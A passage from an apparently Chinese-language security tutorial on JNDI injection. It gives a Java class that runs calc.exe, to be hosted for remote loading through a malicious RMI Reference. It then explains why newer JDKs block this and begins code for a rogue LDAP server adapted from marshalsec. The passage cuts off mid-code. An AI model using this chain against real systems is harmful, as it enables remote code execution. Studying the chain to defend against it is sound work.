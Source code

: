 下面还需要一段执行命令的代码，挂载在web页面上让server端去请求。

```
package com.rmi.jndi;

import java.io.IOException;

public class test `{`
    public static void main(String[] args) throws IOException `{`
        Runtime.getRuntime().exec("calc");

    `}`
`}`
```

使用javac命令，将该类编译成class文件挂载在web页面上。

原理其实就是把恶意的`Reference`类，绑定在RMI的Registry 里面，在客户端调用`lookup`远程获取远程类的时候，就会获取到`Reference`对象，获取到`Reference`对象后，会去寻找`Reference`中指定的类，如果查找不到则会在`Reference`中指定的远程地址去进行请求，请求到远程的类后会在本地进行执行。

[![](https://p5.ssl.qhimg.com/t01b175b890da6c6bff.png)](https://p5.ssl.qhimg.com/t01b175b890da6c6bff.png)

我在这里其实是执行失败了，因为在高版本中，系统属性 `com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase` 的默认值变为false。而在低版本中这几个选项默认为true，可以远程加载一些类。

### <a class="reference-link" name="LDAP%E6%A6%82%E5%BF%B5"></a>LDAP概念

轻型目录访问协议（英文：Lightweight Directory Access Protocol，缩写：LDAP，/ˈɛldæp/）是一个开放的，中立的，工业标准的应用协议，通过IP协议提供访问控制和维护分布式信息的目录信息。

### <a class="reference-link" name="JNDI%E6%B3%A8%E5%85%A5+LDAP%E5%AE%9E%E7%8E%B0%E6%94%BB%E5%87%BB"></a>JNDI注入+LDAP实现攻击

有了前面的案例后，再来看这个其实也比较简单，之所以JNDI注入会配合LDAP是因为LDAP服务的Reference远程加载Factory类不受`com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase`等属性的限制。

启动一个ldap服务，该代码由某大佬改自marshalsec。

```
package com.rmi.rmiclient;

import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class demo `{`

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) `{`
        String[] args=new String[]`{`"http://127.0.0.1:8080/#test"`}`;
```